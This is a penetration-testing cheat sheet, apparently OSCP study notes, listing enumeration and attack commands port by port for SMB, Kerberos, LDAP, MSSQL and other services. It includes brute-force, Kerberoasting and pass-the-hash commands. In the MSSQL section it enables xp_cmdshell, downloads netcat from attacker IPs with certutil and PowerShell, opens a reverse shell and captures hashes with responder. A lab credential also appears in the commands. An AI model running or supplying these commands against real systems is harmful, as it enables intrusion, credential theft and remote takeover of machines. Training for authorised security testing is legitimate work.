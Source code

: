 ## Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

`> enumdomusers      #check the users on the DC`
`> queryuser <username>  #query the details of the user`
`> querydispinfo`

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip`

`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`

`smbclient -N -L //[ip]`

`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
	
`lookupsid.py  $domain$user:$pass@$domain`

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`

`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`

`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`

`netexec smb [host/ip] -u [user] -p [pass] --shares`

`netexec smb [host/ip] -u guest -p '' --shares`

`smbclient //[ip]/[share] -U [username] [password]`

`netexec smb -u [user] -p [pass] -M spider_plus`

`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`

`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`

`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`

`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`

`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`

`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`

`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`


# 389 LDAP

<Without Pass>

`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

`ldapsearch -x -H ldap://$ip -s base namingcontexts`

`impacket-lookupsid '$domain/guest'@$domain -no-pass`

<With Pass>

`lookupsid.py  $domain/$user:$pass@$domain`
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`
`neo4j console                #config file; /usr/share/neo4j/conf`
`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login`
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`

`SELECT @@version   #Current MSSQL Version`
`SELECT DB_NAME()   #Current Database`
`SELECT name FROM sys.databases;  #show DBs`	
`enum_db            #show DBs`

`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`

#cmd command	

`EXEC sp_configure 'show advanced options', 1;`
`RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1;`
`RECONFIGURE;`
`EXEC xp_cmdshell ' whoami /priv '`

`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`
	
hash capture

`xp_dirtree \\192.168.1.210\shared`
`responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)`

`enum_impersonate  #impersonate`
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate`


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
